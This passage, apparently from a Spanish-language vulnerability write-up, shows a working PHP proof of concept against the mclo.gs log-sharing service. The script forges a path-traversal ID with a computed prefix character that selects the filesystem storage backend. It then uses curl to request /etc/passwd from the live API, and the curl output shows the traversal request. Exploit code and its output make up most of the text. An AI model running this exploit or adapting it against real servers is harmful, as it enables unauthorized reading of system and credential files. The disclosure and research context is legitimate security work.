 Una implementación sencilla de esta lógica seria:

```php
<?php

$filename = "/etc/passwd";
$host = "<url>";

$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
$chars_arr = str_split($chars);
$chars_size = count($chars_arr);

$rawId = "../../../.." . $filename;
$p = strlen($rawId)*$chars_size;

// Compute complement 
foreach(str_split($rawId) as $c){
    $p -= array_search($c, $chars_arr);
}

// Now calculate a char from the alphabet whose key $k in chars_arr satisfies $k + $p (mod $chars_size) = 5
// As $chars[5] == 'f', this will let us load the Filesystem storage class and get a file from the host system
$char = $chars_size - ($p % $chars_size) + 5;
$final_payload = $chars[$char] . $rawId;

// Now just invoke cURL!
system("curl -v --path-as-is $host/1/raw/$final_payload");
```

Al probarlo con la web oficial de mclo.gs:

```bash
❯ php afr.php
... [snip]
* SSL connection using TLSv1.3 / TLS_AES_256_GCM_SHA384 / x25519 / id-ecPublicKey
* ALPN: server accepted h2
* Server certificate:
*  subject: CN=mclo.gs
*  start date: Jan  5 02:33:27 2025 GMT
*  expire date: Apr  5 03:33:23 2025 GMT
*  subjectAltName: host "api.mclo.gs" matched cert's "*.mclo.gs"
*  issuer: C=US; O=Google Trust Services; CN=WE1
*  SSL certificate verify ok.
*   Certificate level 0: Public key type EC/prime256v1 (256/128 Bits/secBits), signed using ecdsa-with-SHA256
*   Certificate level 1: Public key type EC/prime256v1 (256/128 Bits/secBits), signed using ecdsa-with-SHA384
*   Certificate level 2: Public key type EC/secp384r1 (384/192 Bits/secBits), signed using ecdsa-with-SHA384
* Connected to api.mclo.gs (104.26.6.63) port 443
* using HTTP/2
* [HTTP/2] [1] OPENED stream for https://api.mclo.gs/1/raw/S../../../../etc/passwd
* [HTTP/2] [1] [:method: GET]
* [HTTP/2] [1] [:scheme: https]
* [HTTP/2] [1] [:authority: api.mclo.gs]
* [HTTP/2] [1] [:path: /1/raw/S../../../../etc/passwd]
* [HTTP/2] [1] [user-agent: curl/8.11.1]
* [HTTP/2] [1] [accept: */*]
} [5 bytes data]
> GET /1/raw/S../../../../etc/passwd HTTP/2
> Host: api.mclo.gs
> User-Agent: curl/8.11.1
> Accept: */*
```